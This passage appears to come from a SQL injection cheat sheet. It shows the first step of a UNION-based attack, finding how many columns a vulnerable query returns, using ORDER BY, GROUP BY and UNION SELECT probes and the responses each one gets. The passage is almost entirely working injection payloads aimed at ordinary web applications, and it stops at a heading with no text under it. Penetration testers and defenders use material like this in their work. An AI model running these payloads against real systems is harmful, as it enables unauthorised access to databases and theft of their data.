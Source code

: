 First you need to know the number of columns

##### Using `order by` or `group by`

Keep incrementing the number until you get a False response.
Even though GROUP BY and ORDER BY have different funcionality in SQL, they both can be used in the exact same fashion to determine the number of columns in the query.

```sql
1' ORDER BY 1--+	#True
1' ORDER BY 2--+	#True
1' ORDER BY 3--+	#True
1' ORDER BY 4--+	#False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+	True
```
or 
```sql
1' GROUP BY 1--+	#True
1' GROUP BY 2--+	#True
1' GROUP BY 3--+	#True
1' GROUP BY 4--+	#False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+	True
```
##### Using `order by` or `group by` Error Based
Similar to the previous method, we can check the number of columns with 1 request if error showing is enabled.
```sql
1' ORDER BY 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,91,92,93,94,95,96,97,98,99,100--+

# Unknown column '4' in 'order clause'
# This error means query uses 3 column
#-1' UNION SELECT 1,2,3--+	True
```
or
```sql
1' GROUP BY 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,91,92,93,94,95,96,97,98,99,100--+

# Unknown column '4' in 'group statement'
# This error means query uses 3 column
#-1' UNION SELECT 1,2,3--+	True
```
##### Using `UNION SELECT` Error Based
This method works if error showing is enabled
```sql
1' UNION SELECT @--+        #The used SELECT statements have a different number of columns
1' UNION SELECT @,@--+      #The used SELECT statements have a different number of columns
1' UNION SELECT @,@,@--+    #No error means query uses 3 column
                            #-1' UNION SELECT 1,2,3--+	True
```
##### Using `LIMIT INTO` Error Based
This method works if error showing is enabled.
